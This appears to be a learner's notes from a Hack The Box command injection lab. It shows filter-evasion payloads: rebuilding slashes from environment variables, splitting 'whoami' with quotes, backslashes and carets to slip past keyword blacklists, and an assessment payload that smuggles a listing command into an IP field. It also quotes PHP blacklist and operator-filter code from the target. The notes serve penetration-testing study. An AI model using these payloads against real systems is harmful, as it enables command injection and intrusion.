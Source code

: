 ```shell
pradyun2005@htb[/htb]$ man ascii     # \ is on 92, before it is [ on 91
pradyun2005@htb[/htb]$ echo $(tr '!-}' '"-~'<<<[)

\
```


#### WINDOWS

**IN CMD**
- to get slash `%HOMEPATH%` -> `\Users\htb-student`

```cmd
C:\htb> echo %HOMEPATH:~6,-11%
```

**IN POWERSHELL**

```powershell
PS C:\htb> $env:HOMEPATH[0]
```


**ASSESMENT**
- 127.0.0.1%0als%09${PATH:0:1}home => to find user in /home directory

#### BLACKLIST COMMANDS

```php
$blacklist = ['whoami', 'cat', ...SNIP...];
foreach ($blacklist as $word) {
    if (strpos('$_POST['ip']', $word) !== false) {
        echo "Invalid input";
    }
}
```



```shell
w'h'o'am'i
w"h"o"am"i
who$@ami
w\ho\am\i
```

```cmd
 who^ami
```



### Advanced Command Obfuscation

- using above techniques i got source code
```PHP
<?php
ini_set('display_errors', 1);
ini_set('display_startup_errors', 1);
error_reporting(E_ALL);
$output = '';

function filter($str)
{
  $operators = ['&', '|', ';', '\\', '/', ' '];
  foreach ($operators as $operator) {
    if (strpos($str, $operator)) {
      return true;
    }
  }

```